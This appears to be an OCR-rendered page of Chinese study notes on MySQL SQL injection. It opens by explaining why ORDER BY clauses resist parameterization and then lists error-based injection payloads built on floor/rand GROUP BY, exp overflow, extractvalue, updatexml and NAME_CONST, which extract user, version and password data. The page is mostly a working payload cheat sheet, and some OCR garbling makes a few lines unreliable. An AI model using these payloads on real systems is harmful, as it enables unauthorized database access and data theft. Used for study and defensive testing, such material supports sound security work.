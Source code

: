 为什么要讲 order by注入，因为常规的通用型sq注入防御是参数化查询，order by后的asc、
desc参数是无法参数化的，一些开发人员会使用拼接方法连接语句，产生注入点。

 `ASC ,if(1=1),1,(select 1 from information_schema.tables))`

### 数据库版本

01. MySQL 5.0 以后 information _schema 库出现
02. MySQL 5.1 以后 udf 导入xx\lib\plugin\目录下
03. MySQL 5.x 以后 system 执行命令

### 手工注入总结

#### 报错方法集合

`SELECT 1, count(*), concat(0x3a, 0x3a, (SELECT user()), 0x3a, 0x3a, floor(rand(0)*2))a FROM information_schema.columns group by a;` // 此处有三个点，一是需要concat计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql的bug的问题。但是此处需要将rand(0)，rand()需要多试几次才行。

上语句可以简化成如下的形式

 `SELECT count(**) FROM information_schema.tables GROUP BY concat(version(), floor(rand(0)*2))*`

*如果关键的表被禁用了，可以使用这种形式*

 `SELECT *count(*) FROM (SELECT 1 UNION SELECT null UNION SELECT (!1) GROUP BY concat(version(), floor(rand(0)*2)`

如果rand被禁用了可以使用用户变量来报错

 `SELECT min(@a:=1) FROM information schema.tables GROUP BY concat(password, @a:=(@a+1)%2)`

`SELECT exp(~(SELECT * FROM(SELECT USER())a))` //  double数值类型超出范围，Exp()为以e为底的对数函数；版本在5.5.5及以上
`SELECT !(SELECT * FROM (SELECT user())x)- ~0` //  bigint超出范围；～0是对0逐位取反，很大的版本在5.5.5及以上

`extractvalue(1, concat(0x7e, (SELECT @@version), 0x7e)) se` //  mysql对xml数据进行查询和修改的xpath函数，xpath语法错误

`updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)` //  mysql对xml数据进行查询和修改的xpath函数，Xpath语法错误

`SELECT * from (SELECT NAME_CONST(version(), 1), NAME_CONST(version(),1))x;` //  mysql重复特性，此处重复了version，所以报错

#### 常用语句集合

* ascii(str)
* substr(str, start, len)
* mid(str, 1, 1)
* count([column])
* if(condition, a, b)
* ord()
* sleep()
* left()
* floor()
* rand()
* extractvalue()
* updatexml()
* char()
* strcmp()
* ifnull()
* exp()
